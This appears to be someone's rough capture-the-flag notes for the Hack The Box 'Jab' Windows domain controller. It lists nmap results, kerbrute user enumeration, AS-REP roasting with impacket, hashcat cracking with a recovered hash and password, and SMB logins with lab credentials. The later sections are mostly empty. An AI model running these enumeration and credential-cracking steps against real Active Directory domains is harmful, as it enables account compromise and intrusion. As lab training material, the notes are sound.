 ## Jabber Machine - Windows

- [+]	Target IP
   >>	:10.10.11.4


## Recon
```nmap
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5222/tcp  open  xmpp-client
5223/tcp  open  hpvirtgrp
5262/tcp  open  unknown
5263/tcp  open  unknown
5269/tcp  open  xmpp-server
5270/tcp  open  xmp
5275/tcp  open  unknown
5276/tcp  open  unknown
5985/tcp  open  wsman
7070/tcp  open  realserver
7443/tcp  open  oracleas-https
7777/tcp  open  cbt
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49673/tcp open  unknown
49690/tcp open  unknown
49691/tcp open  unknown
49694/tcp open  unknown
49701/tcp open  unknown
49773/tcp open  unknown
50465/tcp open  unknown

```
- [+] Port enum :	
   >>	Port 7070 openfire binding service 
   >>	5222/tcp open  xmpp-client
   >>	5269/tcp open  xmpp-server
   >>	53/tcp open  domain  Simple DNS Plus
   >>	88/tcp open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-06-21 23:04:52Z)
   
   kerbrute userenum -d jab.htb --dc dc01.jab.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt 

   >>	135/tcp open  msrpc      Microsoft Windows RPC
   >>	593/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
   >>   389/tcp open  ldap          Microsoft Windows Active Directory LDAP 
		(Domain: jab.htb0., Site: Default-First-Site-Name)
		|_ssl-date: 2024-06-21T23:13:12+00:00; +4s from scanner time.
		| ssl-cert: Subject: commonName=DC01.jab.htb
   >>	445/tcp open  microsoft-ds
	Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

   >>	xmpp server connect to it with pidgin 
	search plugin shows users that already got with kerbrute
	maybe need to bruteforce users with same password as their username ?
	trying kerberoasting with users
   >>	
   >>	
   >>	
   >>	
hashcat -m 18200 file.hash /usr/share/wordlists/rockyou.txt --show
$krb5asrep$23$jmontgomery@JAB.HTB:1f25578988d68d430464bd51517906bb$98a20065c46c0a0a3acacd7be3dff0d020f61c1f88ee09a41ce9e1ead202d380b29ca0fe00657f01387c9e187f23a9ef863abc108ce73cb952b08fc8acbccac17d2c346aae9cbc250a01f3e18fb94f32f4afcb02102d551b33d261182de8d43cebdb7198e2e033e12774a3eea85dc5ed522d4475b17f097fb713a7c7818501efc801055ba834bdcfd3a67ec236cefff2e000e0fa7e52db1856119f0dd5d03a878dbcb448e70d1ba8011cbf019510575f851f72867ca29093b36be4c345d39baf90b7ee3f021538d77ee2d53b0a7c6953702431dd25ea75e2770a947fc288cd6f4231:Midnight_121

jmontgomery:Midnight_121 ## user in pidgin showwed a pentest room showing tgs 

svc_openfire:!@#$%^&*(1qazxsw 

smbclient -L  //10.10.11.4/ -U svc_openfire !@#$%^&*(1qazxsw

smbclient -L  //10.10.11.4/ -U jmontgomery%Midnight_121
smbclient //10.10.11.4/SYSLOG -U jmontgomery%Midnight_121

## Foothold
jab.htb/jmontgomery:Midnight_121

## User Privesc	


## Root 









python3-impacket/examples/GetNPUsers.py jab.htb/ -usersfile users.txt -format hashcat -outputfile

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)

